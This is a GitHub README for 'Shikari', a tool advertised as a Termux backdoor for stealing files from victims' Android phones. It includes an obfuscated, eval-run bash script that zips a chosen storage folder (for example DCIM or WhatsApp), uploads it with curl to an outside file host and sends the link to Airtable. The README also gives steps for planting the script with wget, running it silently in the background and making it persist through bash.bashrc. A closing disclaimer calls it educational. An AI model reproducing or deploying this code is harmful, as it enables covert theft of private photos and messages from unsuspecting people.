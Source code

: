 
<h1 align="center">
  <br>
  <a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/shikari.gif" alt=""></a>
  <br>
  Shikari
  <br>
</h1>

<h4 align="center">Create Backdoor in Termux</h4>

## Features

✓ First time on internet 😎 , Give credit if you are going to copy my idea or code ;)</br>
✓ You can get any files of victim 🌚</br>
- /storage/DCIM
- /storage/Pictures
- /storage/WhatsApp 
- /storage/Anything..;)

✓ All things happen in background.</br>
✓ Not Easily Detectable</br>
✓ You will get notifications through Email ;)</br>

## Tutorial
### Step 1
- [Create New Account](https://airtable.com/invite/r/GNqgr5Ps)
### Step 2
- Create New Base
- Create Table
- Create 2 Field
    + Field 1 : Name
    + Field 2 : link
- Check Screenshot for Understanding.

<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-183933.jpg"></a>
### Step 3
Note Down following ids.
+ [API ID](https://airtable.com/account)
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-185807.jpg"></a>
+ [Base ID](https://airtable.com/api)
<a href="#"><img src="https://d3drh3gsi3sqc6.cloudfront.net/images/airtable-find-base-id.png"></a>
+ Table Name
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-192936.jpg"></a>
### Step 4
copy below code and paste it in your Bash/Shell Script.

```
#!/bin/bash

api=
base=
table=
folder=

z="
";cCz=' {" ';mCz='/Shi';kBz='om/v';hCz=' "Na';NCz='Cont';eCz='fiel';VBz='nk2';TBz=' lin';lCz='4You';Cz='shik';iBz='rtab';jBz='le.c';uz='[]=@';xCz=' '\''"'\''';Jz='echo';iz='$fol';ICz='eare';BDz='}'\''" ';XCz='  "'\''';mBz='ase/';FCz='oriz';Xz='all ';KCz='pi" ';MCz='ipt2';jz='der ';ADz=']" >';Bz='pt=.';qBz='crip';kCz='Bhai';rBz='t2';bCz='    ';xz='s://';fBz='tps:';Az='scri';hz='red/';xBz=' "" ';YBz='dev/';uCz='$(ca';TCz='on" ';Yz='zip ';cBz='v -X';tBz='tf "';Wz='inst';qCz='ript';RBz=' htt';nz=' /de';oCz='" >>';HBz=' > l';VCz='data';tz='iles';vz='ari.';ABz='ninj';aCz=': ["';Gz='k';CBz='load';Ez='pt2=';gBz='//ap';OCz='ent-';PBz='2 | ';XBz='&> /';bBz='rl -';eBz='T ht';Fz='.hac';nBz='$tab';Tz='vice';UBz='f li';ez='hika';JCz='r $a';Zz='-y &';wCz='nk)"';dCz='   "';GCz='atio';wz='http';Nz='/sha';aBz=' "cu';Vz='pkg ';IBz='ink2';Iz=' \'\''';pz='ll';iCz='me"'\''';lBz='0/$b';SCz='n/js';Lz='/sto';jCz=': " ';kz='devi';BBz='a/up';PCz='Type';EBz='?out';cz='ull';vCz='t li';mz='g &>';tCz=' "'\'' ';pBz='> $s';fCz='ds"'\''';QCz=': ap';bz='ev/n';lz='celo';vBz=' >> ';ACz='  -H';pCz=' $sc';sBz='prin';Mz='rage';rCz='2';dz='-r s';FBz='put=';MBz='f de';LCz='$scr';CCz='tf '\''';DBz='.php';ECz='Auth';QBz='grep';Pz='term';Hz='ps='\''';WBz='rvf ';az='> /d';Uz='log';OBz='link';rz=' -i ';fz='ri.z';NBz='cat ';SBz='ps >';WCz=' '\''{"';Kz='cd ~';HCz='n: B';Oz='red';sCz='," >';wBz='pt2';BCz=' " >';UCz='  --';qz='curl';uBz='$ps"';RCz='plic';sz='-F f';ZCz='rds"';yCz='}" >';YCz='reco';hBz='i.ai';gz='ip ~';GBz='text';yBz='>> $';DCz='"'\'' >';Rz='nfo ';nCz='kari';Dz='ari';oBz='le" ';KBz='1';yz='tmp.';Sz='> de';dBz=' POS';oz='v/nu';JBz=' 2>&';LBz='rm -';ZBz='null';gCz=': {"';Qz='ux-i';
eval "$Az$Bz$Cz$Dz$z$Az$Ez$Fz$Gz$z$Hz$Iz$z$Jz$z$Kz$Lz$Mz$Nz$Oz$z$Pz$Qz$Rz$Sz$Tz$Uz$z$Vz$Wz$Xz$Yz$Zz$az$bz$cz$z$Yz$dz$ez$fz$gz$Lz$Mz$Nz$hz$iz$jz$kz$lz$mz$nz$oz$pz$z$qz$rz$sz$tz$uz$Cz$vz$Yz$wz$xz$yz$ABz$BBz$CBz$DBz$EBz$FBz$GBz$HBz$IBz$JBz$KBz$z$LBz$MBz$Tz$Uz$z$NBz$OBz$PBz$QBz$RBz$SBz$TBz$Gz$z$LBz$UBz$VBz$z$LBz$WBz$Cz$vz$Yz$XBz$YBz$ZBz$z$Jz$aBz$bBz$cBz$dBz$eBz$fBz$gBz$hBz$iBz$jBz$kBz$lBz$mBz$nBz$oBz$pBz$qBz$rBz$z$sBz$tBz$uBz$vBz$Az$wBz$z$Jz$xBz$yBz$Az$wBz$z$sBz$tBz$ACz$BCz$pBz$qBz$rBz$z$sBz$CCz$DCz$pBz$qBz$rBz$z$sBz$tBz$ECz$FCz$GCz$HCz$ICz$JCz$KCz$yBz$Az$wBz$z$sBz$CCz$DCz$pBz$qBz$rBz$z$sBz$tBz$uBz$vBz$LCz$MCz$z$Jz$xBz$yBz$Az$wBz$z$sBz$tBz$ACz$BCz$pBz$qBz$rBz$z$sBz$CCz$DCz$pBz$qBz$rBz$z$sBz$tBz$NCz$OCz$PCz$QCz$RCz$GCz$SCz$TCz$yBz$Az$wBz$z$sBz$CCz$DCz$pBz$qBz$rBz$z$sBz$tBz$uBz$vBz$LCz$MCz$z$Jz$xBz$yBz$Az$wBz$z$sBz$tBz$UCz$VCz$WCz$vBz$LCz$MCz$z$Jz$xBz$yBz$Az$wBz$z$sBz$CCz$XCz$vBz$LCz$MCz$z$sBz$tBz$YCz$ZCz$vBz$LCz$MCz$z$sBz$CCz$DCz$pBz$qBz$rBz$z$sBz$tBz$aCz$vBz$LCz$MCz$z$Jz$xBz$yBz$Az$wBz$z$sBz$tBz$bCz$cCz$yBz$Az$wBz$z$Jz$xBz$yBz$Az$wBz$z$sBz$CCz$bCz$dCz$eCz$fCz$vBz$LCz$MCz$z$sBz$tBz$gCz$vBz$LCz$MCz$z$Jz$xBz$yBz$Az$wBz$z$sBz$CCz$bCz$bCz$hCz$iCz$vBz$LCz$MCz$z$sBz$tBz$jCz$yBz$Az$wBz$z$sBz$CCz$DCz$pBz$qBz$rBz$z$sBz$tBz$kCz$lCz$mCz$nCz$oCz$pCz$qCz$rCz$z$sBz$CCz$DCz$pBz$qBz$rBz$z$sBz$tBz$sCz$pBz$qBz$rBz$z$Jz$xBz$yBz$Az$wBz$z$sBz$CCz$bCz$bCz$tCz$yBz$Az$wBz$z$sBz$tBz$OBz$oCz$pCz$qCz$rCz$z$sBz$CCz$DCz$pBz$qBz$rBz$z$sBz$tBz$jCz$yBz$Az$wBz$z$sBz$CCz$DCz$pBz$qBz$rBz$z$sBz$tBz$uCz$vCz$wCz$vBz$LCz$MCz$z$Jz$xCz$vBz$LCz$MCz$z$sBz$tBz$bCz$bCz$bCz$yCz$pBz$qBz$rBz$z$Jz$xBz$yBz$Az$wBz$z$sBz$tBz$bCz$bCz$yCz$pBz$qBz$rBz$z$Jz$xBz$yBz$Az$wBz$z$sBz$tBz$bCz$ADz$pBz$qBz$rBz$z$Jz$xBz$yBz$Az$wBz$z$sBz$tBz$BDz$yBz$Az$wBz$z$Jz$xBz$yBz$Az$wBz"
```

+ Add your API id, base id and table id without space.
+ Enter your folder name you want to Hack. (ex. DCIM, Pictures, Download, Music)
+ Then save it "shikari.sh" and upload on your GitHub account.
### Step 5

+ Now you can download "shikari.sh" script on victim device by wget command.
+ You can add this command in any script.

Example.,
```
wget https://raw.githubusercontent.com/.../../master/shikari.sh
```

### Background Process
+ Add this code in your new hack.sh script for background process.
```
_evalBg() {
eval "$@" &>/dev/null & disown;
}
cmd="bash shikari.sh";
_evalBg "${cmd}";
```
### logic
When someone open termux everytime you will get /storage/folder of victim.
+ You need to follow this step..(add below code in your Bash script)
```
mv hack.sh $PREFIX/etc/bin 
echo "bash hack.sh" >> $PREFIX/etc/bash.bashrc
```

### Limitation
+ You can't get any folder if your victim have no storage permission on Termux.
+ add this command in your script for Storage permission.
```
termux-setup-storage
```

### Email Setup
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-203554.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-203648.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-203715.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-203743.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-203810.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-204013.jpg"></a>

+ Setup according your need , when someone use your script then automatically backdoor
Created on victim device, everytime your victim open termux you will get his data through Email !!
+ After uploading folders, airtable will send you download link ;)

### Demo Screenshots
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/IMG_20220414_205246_105.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/IMG_20220414_205251_263__01.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/IMG_20220414_205256_944__01.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/IMG_20220414_205300_548.jpg"></a>

### How it works ??
+ Shikari is API based tool 🦴

```
curl -v -X POST https://api.airtable.com/v0/#baseid/#tablename \
  -H "Authorization: Bearer #apikey" \
  -H "Content-Type: application/json" \
  --data '{
  "records": [
    {
      "fields": {
        "Name": "#toolname",
        "link": "https://bhai4you.blogspot.com"
      }
    }
  ]
}'
```
✓ All files uploaded through Airtable API</br>
✓ Change #baseid, #apikey, #tablename, #toolname and save it demo.sh</br>
✓ bash demo.sh [for testing]</br></br>

### Error/Problems
Send Mail to this id if you are facing any problems.</br>
Mail : parixit1337@gmail.com
### Disclaimer
The tutorial and demo provided for informational and educational purpose only, and for those who’re willing and curious to know and learn about Ethical Hacking, Security and Penetration Testing.</br></br> Any time the word “Hacking” that is used on this Application shall be regarded as Ethical Hacking.</br></br>
You shall not misuse the information to gain unauthorised access. However you may try out these hacks on your own computer at your own risk. Performing hack attempts (without permission) on computers that you do not own is illegal.
